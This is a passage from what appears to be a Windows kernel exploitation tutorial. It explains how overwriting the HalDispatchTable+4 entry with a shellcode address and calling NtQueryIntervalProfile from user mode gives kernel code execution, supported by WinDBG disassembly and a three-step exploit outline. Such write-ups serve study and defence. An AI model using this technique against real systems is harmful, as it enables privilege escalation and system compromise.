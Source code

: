 First entry at `HalDispatchTable` doesn't seem to be populated but `HalDispatchTable+4` points to `HaliQuerySystemInformation` and `HalDispatchTable+8` points to `HalpSetSystemInformation`.

These locations are writable and we can calculate their exact location easily (more on that later). `HaliQuerySystemInformation` is the lesser used one of the two, so we can put the address of our shellcode at `HalDispatchTable+4` and make a user-mode call that will end up calling this function.

`HaliQuerySystemInformation` is called by the undocumented `NtQueryIntervalProfile` (which according to the linked article is a "very low demanded API"), let's take a look with WinDBG:

```
kd> uf NtQueryIntervalProfile

...snip...

nt!NtQueryIntervalProfile+0x6b:
82b55ec2 call    nt!KeQueryIntervalProfile (82b12c97)

...snip...

kd> uf nt!KeQueryIntervalProfile

...snip...

nt!KeQueryIntervalProfile+0x14:
82b12cab mov     dword ptr [ebp-10h],eax
82b12cae lea     eax,[ebp-4]
82b12cb1 push    eax
82b12cb2 lea     eax,[ebp-10h]
82b12cb5 push    eax
82b12cb6 push    0Ch
82b12cb8 push    1
82b12cba call    dword ptr [nt!HalDispatchTable+0x4 (82970434)]
82b12cc0 test    eax,eax
82b12cc2 jl      nt!KeQueryIntervalProfile+0x38 (82b12ccf)  Branch

...snip...

```

Function at `[nt!HalDispatchTable+0x4]` gets called at `nt!KeQueryIntervalProfile+0x23` which we can trigger from user-mode. Hopefully, we won't run into any trouble overwriting that entry.

---

The exploit will do the following:
1. Get `HalDispatchTable` location in the kernel.
2. Overwrite `HalDispatchTable+4` with the address of our payload.
3. Calculate the address of `NtQueryIntervalProfile` and call it.

---

### 2. Getting the address of `HalDispatchTable`
